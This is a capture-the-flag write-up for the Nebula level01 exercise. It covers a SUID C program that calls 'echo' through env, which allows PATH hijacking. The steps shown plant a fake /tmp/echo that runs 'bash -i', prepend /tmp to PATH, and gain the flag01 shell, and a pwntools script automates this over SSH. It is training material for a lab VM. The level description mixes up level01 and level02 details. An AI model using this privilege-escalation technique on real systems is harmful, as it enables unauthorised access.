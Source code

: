 # Level01

#### Description

> There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?
>
> To do this level, log in as the **level02** account with the password **level02**. Files for this level can be found in /home/flag02.

#### Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  gid_t gid;
  uid_t uid;
  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  system("/usr/bin/env echo and now what?");
}
```

***

#### Solution

First of all let's switch on to the directory where those files were present.

```
level01@nebula:~$ cd /home/flag01
level01@nebula:/home/flag01$ ls -la
total 13
drwxr-x--- 2 flag01 level01   92 2011-11-20 21:22 .
drwxr-xr-x 1 root   root      60 2012-08-27 07:18 ..
-rw-r--r-- 1 flag01 flag01   220 2011-05-18 02:54 .bash_logout
-rw-r--r-- 1 flag01 flag01  3353 2011-05-18 02:54 .bashrc
-rwsr-x--- 1 flag01 level01 7322 2011-11-20 21:22 flag01
-rw-r--r-- 1 flag01 flag01   675 2011-05-18 02:54 .profile
```

`flag01` is the binary on which SUID bit has set.

Checking source code revealed a vulnerability - PATH hijacking.

```
system("/usr/bin/env echo and now what?");
```

Binary is not using absolute path for `echo` command and it can be exploitable by making our own `echo` binary somewhere else and add that directory path to PATH environment.

Make a new echo binary in `/tmp` folder and give it executable permission.

```
level01@nebula:/home/flag01$ cd /tmp
level01@nebula:/tmp$ echo -e '#!/bin/bash\nbash -i' > echo
level01@nebula:/tmp$ ls
echo  VMwareDnD  vmware-root
level01@nebula:/tmp$ chmod +x echo
```

Add `/tmp` directory path to PATH environment variable.

```
level01@nebula:/tmp$ export PATH=/tmp:$PATH
level01@nebula:/tmp$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games
```

This will call that echo binary we created in `/tmp` folder instead of the original one.

```
level01@nebula:/tmp$ /home/flag01/flag01
flag01@nebula:/tmp$ id
uid=998(flag01) gid=1002(level01) groups=998(flag01),1002(level01)
flag01@nebula:/tmp$ getflag
You have successfully executed getflag on a target account
```

Successfully got flag01 user's account shell and completed this level.

***

#### Python Automation

```python
from pwn import *
from sys import argv, exit

# Check if IP address is provided as an argument
if len(argv) < 2:
    exit("IP address not found.")

# Establishes SSH connection with target IP address
session = ssh(host=argv[1], user='level01', password='level01')

# start a remote shell
terminal = session.shell()

# Creating a fake echo binary on /tmp directory
binary_creation_cmd = "echo -e '#!/bin/bash\nbash -i' > /tmp/echo"
terminal.sendline(binary_creation_cmd)
terminal.sendline("chmod +x /tmp/echo")
print("Successfully created fake /tmp/echo binary")

# Exporting /tmp directory to PATH environment variable
terminal.sendline("export PATH=/tmp:$PATH")

# Executing target binary
terminal.sendline('/home/flag01/flag01')
terminal.sendline("getflag")

terminal.interactive()
```

<figure><img src="../../../.gitbook/assets/image (59).png" alt=""><figcaption></figcaption></figure>

***
